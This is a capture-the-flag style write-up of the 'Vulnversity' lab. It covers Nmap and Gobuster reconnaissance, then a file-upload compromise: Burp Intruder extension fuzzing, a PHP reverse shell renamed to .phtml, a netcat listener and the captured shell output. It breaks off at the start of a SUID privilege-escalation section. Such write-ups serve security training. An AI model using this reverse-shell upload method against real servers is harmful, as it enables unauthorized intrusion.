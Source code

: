 # Vulnversity
## Reconnaissance

| Nmap Flag | Description
| --- | ---
| `-sV` | Attempt to determine version of running services.
| `-p <x>` or `-p-` | Port scan for port <x> or scan all ports.
| `-Pn` | Disable host discovery and scan for open ports.
| `-A` | Enable OS and version detection, executes in-built scripts for further examination.
| `-sC` | Scan with default Nmap scripts.
| `-v` | Verbose mode.
| `-sU` | UDP port scan.
| `-sS` | TCP SYN port scan.

## Locating Directories Using [Gobuster](https://github.com/OJ/gobuster)
* `Gobuster` is fast directory discovery tool.
* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.
```
sudo apt-get install gobuster
```
* Requires wordlist to identify if public directory is available.
* Kali `/usr/share/wordlists` folder contains many wordlists.

| Gobuster Flag | Description
| --- | ---
| `dir` | Use directory/file bruteforcing.
| `-e` | Prints full URLs to the console.
| `-u` | Target URL.
| `-w` | Path to wordlist.
| `-U` and `-P` | Username and password for basic authentication.
| `-p <x>` | Proxy to use for requests.
| `-c <http cookies>` | Specify cookie for simulatin authentication.

## Compromise the Webserver
* Fuzz the upload form using BurpSuite to identify which extensions are not blocked.
### Use the Intruder to automate customised attacks.
#### 1. Make a wordlist of extensions.
```
printf "php\nphp3\nphp4\nphp5\nphtml" >  phpext.txt
```
#### 2. Intercept all browser traffic with BurpSuite.
* Upload file to `http://10.10.240.196:3333/internal/`.
#### 3. Send captured request to Intruder.
* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix `§` to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
#### 4. Start the attack.
* PHP reverse shell used as payload.
* Reverse shell is called on target, which forces a connection to listening attacker.
* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Edit `php-reverse-shell.php`.
   * Change IP to attacking machine.
   * Rename file to `php-reverse-shell.phtml`.
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
#### 5. Listen to incoming connections using netcat.
```
nc -lvnp 1234
```
#### 6. Upload shell to webserver.
#### 7. Execute payload.
   * Navigate to `http://10.10.240.196:3333/internal/uploads/php-reverse-shell.phtml`
#### 8. Connection established on Netcat session.
```
onnection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:00:44 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Privilege Escalation
* Linux SUID (set owner userId upon execution) is file permission.
* Gives temporary permissions to user to run file with permission of file owner.
* `/usr/bin/passwd` binary file to change user password has SUID bit set.
  * User needs to be able to write to shadowers file but only root has access by default.
  * User account has root privileges to make the right changes.
```
4 2 1 4 2 1 4 2 1
r w x r w x r w x
    V     V     V
r w s r w x r w x
-----
User
```
